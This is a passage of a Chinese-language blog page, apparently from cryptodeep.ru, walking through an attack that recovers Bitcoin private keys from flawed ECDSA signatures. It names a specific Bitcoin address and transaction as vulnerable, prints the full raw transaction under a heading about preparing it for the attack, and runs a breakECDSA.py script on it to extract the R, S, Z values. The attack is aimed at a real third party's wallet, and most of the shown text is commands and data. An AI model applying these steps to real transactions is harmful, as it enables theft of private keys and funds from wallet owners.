 

<p><a href="https://btc1.trezor.io/tx/96c94c5b69c60ab4e3889b11fee54519fc6ff0f228f37554dd0dc766ab3909ef" target="_blank" rel="noreferrer noopener"><strong>通過詳細的密碼分析，我們還在96c94c5b69c60ab4e3889b11fee54519fc6ff0f228f37554dd0dc766ab3909ef</strong></a>中發現了一個針對相同比特幣地址的嚴重漏洞<strong><code>&nbsp;TXID:</code></strong><a href="https://btc1.trezor.io/tx/96c94c5b69c60ab4e3889b11fee54519fc6ff0f228f37554dd0dc766ab3909ef" target="_blank" rel="noreferrer noopener"><strong></strong></a></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>為攻擊準備 RawTX</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o" target="_blank" rel="noreferrer noopener">1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/96c94c5b69c60ab4e3889b11fee54519fc6ff0f228f37554dd0dc766ab3909ef
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-131-1024x141.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1214"/></figure>



<pre class="wp-block-code"><code>RawTX = 010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-132-1024x302.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1217"/></figure>
